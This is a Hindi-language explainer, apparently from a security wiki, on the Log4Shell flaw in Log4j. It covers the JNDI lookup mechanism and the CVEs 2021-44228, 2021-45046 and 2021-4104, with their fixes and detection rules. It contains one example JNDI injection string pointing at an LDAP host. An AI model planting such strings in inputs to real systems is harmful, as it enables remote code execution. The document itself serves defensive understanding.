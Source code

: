 
## Log4Shell Vulnerability

यह कमजोरियाँ Log4j में पेश की गई है क्योंकि यह एक [**विशेष सिंटैक्स**](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) का समर्थन करता है जो `${prefix:name}` के रूप में है जहां `prefix` विभिन्न [**Lookups**](https://logging.apache.org/log4j/2.x/manual/lookups.html) में से एक है जहां `name` का मूल्यांकन किया जाना चाहिए। उदाहरण के लिए, `${java:version}` वर्तमान में चल रही Java का संस्करण है।

[**LOG4J2-313**](https://issues.apache.org/jira/browse/LOG4J2-313) ने एक `jndi` Lookup सुविधा पेश की। यह सुविधा JNDI के माध्यम से चर पुनर्प्राप्त करने की अनुमति देती है। आमतौर पर, कुंजी को स्वचालित रूप से `java:comp/env/` के साथ पूर्ववर्ती किया जाता है। हालाँकि, यदि कुंजी में स्वयं एक **":"** शामिल है, तो यह डिफ़ॉल्ट पूर्ववर्ती लागू नहीं होता है।

कुंजी में **: उपस्थित** होने पर, जैसे `${jndi:ldap://example.com/a}` में कोई **पूर्ववर्ती नहीं है** और **LDAP सर्वर वस्तु के लिए क्वेरी की जाती है**। और ये Lookups Log4j के कॉन्फ़िगरेशन में और साथ ही जब पंक्तियाँ लॉग की जाती हैं, उपयोग की जा सकती हैं।

इसलिए, RCE प्राप्त करने के लिए केवल एक चीज़ की आवश्यकता है **Log4j का कमजोर संस्करण जो उपयोगकर्ता द्वारा नियंत्रित जानकारी को संसाधित करता है**। और क्योंकि यह एक पुस्तकालय है जो Java अनुप्रयोगों द्वारा जानकारी लॉग करने के लिए व्यापक रूप से उपयोग किया जाता है (इंटरनेट के सामने आने वाले अनुप्रयोगों सहित) यह बहुत सामान्य था कि log4j HTTP हेडर जैसे User-Agent को लॉग करता था। हालाँकि, log4j **केवल HTTP जानकारी को लॉग करने के लिए नहीं बल्कि किसी भी इनपुट** और डेटा को लॉग करने के लिए उपयोग किया जाता है जिसे डेवलपर ने निर्दिष्ट किया।

## Overview of Log4Shell-Related CVEs

### [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) **\[Critical]**

यह कमजोरियाँ `log4j-core` घटक में एक महत्वपूर्ण **अविश्वसनीय अनुक्रमण दोष** है, जो 2.0-beta9 से 2.14.1 तक के संस्करणों को प्रभावित करती है। यह **दूरस्थ कोड निष्पादन (RCE)** की अनुमति देती है, जिससे हमलावरों को प्रणालियों पर नियंत्रण प्राप्त करने की अनुमति मिलती है। यह मुद्दा चेन झाओजुन द्वारा रिपोर्ट किया गया था जो अलीबाबा क्लाउड सुरक्षा टीम से हैं और विभिन्न अपाचे ढांचों को प्रभावित करता है। संस्करण 2.15.0 में प्रारंभिक सुधार अधूरा था। रक्षा के लिए सिग्मा नियम उपलब्ध हैं ([Rule 1](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j\_fields.yml), [Rule 2](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j.yml))।

### [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) **\[Critical]**

शुरुआत में कम रेट किया गया लेकिन बाद में महत्वपूर्ण में अपग्रेड किया गया, यह CVE एक **Denial of Service (DoS)** दोष है जो CVE-2021-44228 के लिए 2.15.0 में अधूरे सुधार के परिणामस्वरूप है। यह गैर-डिफ़ॉल्ट कॉन्फ़िगरेशन को प्रभावित करता है, जिससे हमलावरों को तैयार पेलोड के माध्यम से DoS हमले करने की अनुमति मिलती है। एक [ट्वीट](https://twitter.com/marcioalm/status/1471740771581652995) एक बायपास विधि को प्रदर्शित करता है। यह मुद्दा संस्करण 2.16.0 और 2.12.2 में संदेश लुकअप पैटर्न को हटाकर और डिफ़ॉल्ट रूप से JNDI को अक्षम करके हल किया गया है।

### [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104) **\[High]**

यह **Log4j 1.x संस्करणों** को प्रभावित करता है जो `JMSAppender` का उपयोग करते हैं, यह CVE एक अविश्वसनीय अनुक्रमण दोष है। 1.x शाखा के लिए कोई सुधार उपलब्ध नहीं है, जो समाप्त हो चुकी है, और `log4j-core 2.17.0` में अपग्रेड करने की सिफारिश की जाती है।
